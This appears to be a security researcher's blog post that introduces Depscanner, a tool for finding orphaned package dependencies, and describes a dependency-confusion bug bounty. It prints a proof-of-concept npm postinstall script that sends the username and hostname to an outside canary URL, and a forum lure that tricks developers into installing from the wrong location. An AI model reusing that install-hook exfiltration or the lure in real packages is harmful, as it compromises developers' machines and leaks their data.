










# Original Post
This is a mirror of the original post in [Orange Cyberdefense](https://www.orangecyberdefense.com/)/[SensePost](https://sensepost.com/) blog [here](https://sensepost.com/blog/2025/depscanner-find-orphaned-packages-before-the-bad-guys-do/). 

# Context
I recently shared with my colleagues the quickest method to getting banned from [pypi.org](https://pypi.org), but, believe or not, that was not the original intention of the talk.

My real intention was to share what the current status of dependency confusion is in 2025 (one flavour of supply chain attacks) and present [a tool](https://github.com/sensepost/depscanner/) to detect potential orphan dependencies in GitHub repositories and two short stories, one about great hacking success, and another about being an idiot. Stick around.

As usual, a comic strip from xkcd perfectly summarises the dangers of building modern software systems and how compromising that little project in the low right corner can compromise the integrity of the whole project:


I won't go into details of [what a suply chain attack](https://attack.mitre.org/techniques/T1195/) is nor what dependency confusion is. I'll assume you are familiar with the terms and have not lived under a rock for a year. Just in case though, I'll leave you with a few links to refresh your mind on different flavours of supply chain attacks:

* [https://attack.mitre.org/techniques/T1195/](https://attack.mitre.org/techniques/T1195/)
* [https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) 
* [https://www.cs.cmu.edu/~rdriley/487/papers/Thompson_1984_ReflectionsonTrustingTrust.pdf](https://www.cs.cmu.edu/~rdriley/487/papers/Thompson_1984_ReflectionsonTrustingTrust.pdf)
* [https://en.wikipedia.org/wiki/XZ_Utils_backdoor](https://en.wikipedia.org/wiki/XZ_Utils_backdoor)
* [https://www.ibm.com/docs/en/randori?topic=2022-solarwinds-orion-cve-2020-10148](https://www.ibm.com/docs/en/randori?topic=2022-solarwinds-orion-cve-2020-10148)
* [https://securitylabs.datadoghq.com/articles/mut-8964-an-npm-and-pypi-malicious-campaign-targeting-windows-users/](https://securitylabs.datadoghq.com/articles/mut-8964-an-npm-and-pypi-malicious-campaign-targeting-windows-users/)
* [https://www.bbc.com/news/articles/cwy3l02wxqdo](https://www.bbc.com/news/articles/cwy3l02wxqdo)

Supply chain attacks are not something novel (Ken Thompson's talk linked above, about a supply chain attack in the C compiler was from 1984). It's all about who you trust and how many levels of trust are needed to run Netflix on your TV or [Roblox](https://socket.dev/blog/roblox-developers-targeted-with-npm-packages-infected-with-infostealers) on your computer. At some point you have to trust someone else to do the right thing and not get compromised.

My colleague [Michael Rodger](https://bsky.app/profile/shifttymike.bsky.social) pointed me to the ["Bob Ippolito Problem"](https://www.youtube.com/watch?v=ExMuk_Vdyac&t=721s&ab_channel=BlackHat) described by the ex-plakker [Haroon Meer](https://x.com/haroonmeer) during his Black Hat EU 2015 keynote - that your security depends on the single set of creds from a single random developer of a popular package. This problem is still present in 2025, and I don't foresee it disappearing in the next 10 years.

After some conversations with people, I decided to take a look at the current state of dependency confusion and orphan dependencies on 2025. The outcome of this itch I needed to scratch is [Depscanner](https://github.com/sensepost/depscanner/).

The tool has the following general flow:



Depscanner receives as an input: a list of organisation names, domain names, or repository names (orgname/reponame). It then lists the repositories of a target organisation via the GitHub API and tries to find whether the repository has a well-known dependency file such as requirements.txt, a Pipenv, Gemfile, go.mod, package.json, etc. Next, depscanner parses the dependency file and lists each library/module that this repository requires. Finally, it will try and access the public package registries and find whether that library exists or not.

If the library does not exist, it will optionally notify you at a Discord channel via a webhook and save the result in a Mongo database.

The first version of the tool used a SQLite database, but that was not scalable, so the current version uses a MongoDB. Due to this, I created a [docker compose](https://docs.docker.com/compose/) file to spin up the infrastructure required for the scanner.

# Deployment and Usage
Check the repository README for usage of the CLI and the web interface, but basically, you `docker compose up` and you will have three services:

* Depscanner Web: To run depscanner from the web interface. This container can be used as well to run the CLI.
* Mongo DB: Listening on port 27017. It will collide with your existent mongo db if you already have one running.
* Mongo Express: A web interface to explore the results stored in Mongo DB.

## Web Interface
You, being a hacker, will be able to use the CLI, but I created the web interface for old people, like me, who do not know how to use a CLI. To access the web interface, navigate to [http://localhost:8015/](http://localhost:8015/).

Then, go to the "Upload" tab and upload a list of domains/organisation names/repositories to scan:



Now, go to the “Run” tab and provide the following information:

* Select the source file to scan (domains, repositories, organisations)
* Provide a Github [PAT token](https://docs.github.com/en/authentication/keeping-your-account-and-data-secure/managing-your-personal-access-tokens)
* Optional:
 * A filter of repositories by Number of Stars.
 * A Discord Webhook
 * Enable the “Force Refresh” checkbox to force download of data form GitHub instead of using the local database cache.

Click on "Run":



After the first download of GitHub data you should see the “Scan Progress” bar advance. This process takes long, mostly because GitHub imposes strict API rate limits and the program has an automatic exponential backoff algorithm to wait when the rate limit is hit.

Finally, when the scan has finished, you can find the missing packages in the “Missing Packages” tab:



You will also get the results in your Discord channel if you provided a webhook before execution.

Now, it’s time to take advantage of these packages. You cannot directly see from this interface what projects in GitHub are using these missing packages and so you will have to query the MongoDB to know which projects use these, either via mongosh or the Mongo Express interface in [http://localhost:8081/](http://localhost:8081/).

### Known Limitations

* **Cannot cancel scans**: Right now, the web interface is a bit dumb. You can launch the scan and see how it is going in the /log endpoint. There is no way to cancel the current scan, as I have not programmed the Depscanner class for it. The only option if you want to cancel a scan is to kill the Flask server. I know, it's dumb, but bear with me till another release.

* **Orphan dependencies tables**: The tables showing orphan dependencies do not show the repositories where they were detected. You will have to resort to Discord messages, logs, and Mongo DB to know that. Again, bear with me till the next version.

* **Limited information in the status**: Right now, the information displayed in the scan interface is pretty limited, it only shows whether the scan is running or not, but not if an error ocurred. My intention is to show the last error, messages or if the scanner is currently stop due to the backoff algorithm

# Success Stories

I ran the tool against the top 4000 most popular domains and a list of bug bounty programs. Here I present some interesting results.

It was able to find several orphan packages in Github projects with hundreds of stars, but the more interesting one was [REDACTED] repository (note: I am not allowed to disclose the name of this repository) with more than 13K stars. The dependency file located in [REDACTED]/internals/types/packages.json contained the following:

```json
[...]
"dependencies": { 
  "@types/node": "14.14.31", 
  "@[REDACTED]-internals/constants": "1.0.4",
  "@[REDACTED]/build-utils": "10.6.0",
  "@[REDACTED]/routing-utils": "5.0.4"
},
  "devDependencies": {
  "@[REDACTED]-internals/tsconfig": "1.0.0",
  "@[REDACTED]/style-guide": "4.0.2",
  "typescript": "4.9.4"
}
[...]
```

This was also reported by depscanner via Discord with the following message:



Neither the scope "@[REDACTED]-internals" nor the packages with names "constants" or "tsconfig" were found in npmjs.org, so, I registered the scope "@[redacted]-internals" and published both packages under that scope.

Note that, before registering these scope and packages I asked for permission via their [Hacker One](https://www.hackerone.com/) program. They gave me the green light. After the proof of concept and impact was demonstrated, I handed over the ownership of the scope "@[REDACTED]-internals" to them .

The content of the package I created only contained a small amount of code, with the only intention to report, via a [Canary Token](https://canarytokens.org/nest/), when someone installed my package:

```json
{
   "name": "@[REDACTED]-internals/constants",
   "version": "1.0.0",
   "description": "A harmless proof-of-concept package with a canarytoken to detect installations. This is a part of a security research project.",
   "main": "index.js",
   "scripts": {
       "postinstall": "node postinstall.js"
   },
   "author": "FM",
   "license": "MIT"
}
```

The contents of the postintall.js script were similar to:

```js
[...]
function isRunningInDocker() {
   try {
       return fs.existsSync('/.dockerenv') ||
              fs.readFileSync('/proc/self/cgroup', 'utf8').includes('docker') ||
              process.env.CONTAINER === 'true' ||
              process.env.DOCKER_CONTAINER !== undefined;
   } catch (err) {
       return false;
   }
}

// Gather system details
const hostname = os.hostname();
const username = os.userInfo().username;

// Construct the exfiltration URL
const URL = `https://canarytokens.com/<id>?package=xxxxxx&user=${encodeURIComponent(username)}&host=${encodeURIComponent(hostname)}&docker=${isRunningInDocker()}`;

const req = https.get(URL, (res) => {
   console.log(`Setup completed: ${res.statusCode}`);
   res.on('data', (chunk) => {});
   res.on('end', () => {
       console.log('Response ended.');
   });
});
```

The problem was that even when I had registered these scopes and packages in npmjs.org and then followed [redacted]'s GitHub repository README process to deploy the local environment, the Canary Token did not trigger. This meant that my published packages were not being pulled during the installation and deployment of the [redacted] tool.

After some digging, I found this was due to a magical thing called Monolithic Repository/Monorepo or [Workspaces](https://docs.npmjs.com/cli/v8/using-npm/workspaces):


Specifically, they are using [pnpm workspaces](https://pnpm.io/workspaces) in their project, so everything that had the @[REDACTED]-internal scope was not coming from npmjs.org, but rather from the folder "[REDACTED]/internals", where all these packages were located:



Well, game over then, no? :-(

No, despite this, I thought it would not take much effort for an attacker to convince someone to execute npm install from a different location of this project.

For example, [redacted] has community forums where people talk about their developments and bugs. I could, for example, post a message like this:

```
Hello,
I need support here.
I tried to deploy [REDACTED], but I get this weird bug:
[INSERT A FAKE ERROR/BUG HERE]

I tried the following commands to install, can you reproduce the bug:
git clone https://github.com/[redacted]/[redacted]
cd [redacted]/internals/types
HUSKY=0 npm install --only=dev

Thank you! :wave:
```

So, to bypass the pnpm workspaces pulling packages from nmpjs.org instead from the monorepo defined by pnpm-workspace.json file you would need to convince someone to clone the legitimate repository and execute totally legitimate commands.

Nothing suspicious here, no? This only makes the exploitation a bit harder and the number of targets will be far less, but yet, you get your code executed on [redacted]’s developer’s and tester’s computers, which is already a significant impact.

I reported this to [redacted] via HackerOne and they responded quickly and resolved it in an efficient manner by explicitly indicating these packages were supposed to come from the workspace/monorepo:


_Now it is explicitly mentioned that these packages should be pulled form the workspace_

They also took ownership of the npmjs.org scope that I created for the proof of concept and the malicious packages were deleted.

# Other Orphan Packages
You may be asking: All this code just to discover a single bug?

Not quite, I found many other repositories using orphan packages, but the majority of those reports had a very low number of stars with a couple of exceptions of Python projects that had around 700 stars. For those projects, I created a similar PoC with Canary Tokens reporting only the username, hostname and whether it was a Docker container or not.

Some of the python packages I tried to publish were explicitly forbidden by pypi.org due to their [policy of valid names](https://pypi.org/help/#project-name), for example "evernote-oauth-sample" or "pkg-resources":



At some point I found an orphan package name compliant to the project name restrictions. But before I continue...

DISCLAIMER: DO NOT TRY THIS AT HOME. I learned it the hard way, but the [Acceptable Use Policy](https://policies.python.org/pypi.org/Acceptable-Use-Policy/) of pypi.org states that this platform should not be used to research vulnerabilities, like I did, or for bug bounties and other dual use:



Not being aware of this restriction, which clearly makes sense, I published my proof of concept package. In an unexpected turn of events, my personal account was banned after a short time! Well, I earned it. Totally deserved 🤷🏻‍♂️


_Banned from pypi.org_

But back to the point – similar to when I published the npm packages, after they were published I started receiving some interactions with the canary token. Most of the interactions were sandboxes owned by the “Defenders of the Internet” detonating the library/package:



This is obviously what led to the package being detected as malware on multiple sites, like socket.dev or snyk.io, whose main business is that, kudos to them:


Wrapping up this section: there were some other orphan packages detected by Depscanner, but not many of them were worth taking a closer look into as they mostly were being used by the kind of GitHub repositories last updated in 2010 and published as part of a tutorial used by no one other than the author to learn.

Regardless, I was lucky enough to find the hidden gem and maybe you could find another too using Depscanner!

# Conclusions

I started programming this tool after a conversation where we discussed the current situation of supply chain attacks, specifically in open source libraries.

I could not grasp the situation and feasibility of exploitation in a real environment where a dependency confusion weakness existed. So, I decided to create this tool to help me understand.

This is what I have learned:

* Opportunities to hijack orphan libraries can still be found in 2025.
* Registries are taking action proactively against malicious libraries and have policies that explicitly forbid this and take down packages and accounts that are clearly typo squatting attempts. For example, see fs-xetra or seemver.
* Despite these policies, a malicious library/package could be online for a relatively long time until it is noticed by a third-party.
* Be sure that your published library is going to be analysed by the “Defenders of the Internet” by triggering it in a sandboxed environment.
* Your malicious library will be flagged as a supply chain attack or malware in a relatively short amount of time.
* Attackers will have to resort to obfuscation and other classic evasion techniques to prevent their libraries from being easily flagged as malware.
* Even when you get flagged as a malicious library, there is still a reasonable amount of time your library could be used by legitimate users which will be compromised.
* Parsing requirements files of so many languages is not trivial.

I would not like to finish this post without acknowledging the great work that many companies do to protect us against supply chain attacks. Kudos to [Data Dog](https://www.datadoghq.com/) (they also have [Guard Dog](https://github.com/dataDog/guarddog), a tool with the same purpose as Depscanner and a firewall for dependencies), [Snyk](https://snyk.io/), [Socket](https://socket.dev/), and all the registries that are raising the bar for malicious actors.

Ping me if you use Depscanner and don’t forget to invite me to a beer if you gain a bounty thanks to it!

Cheers!
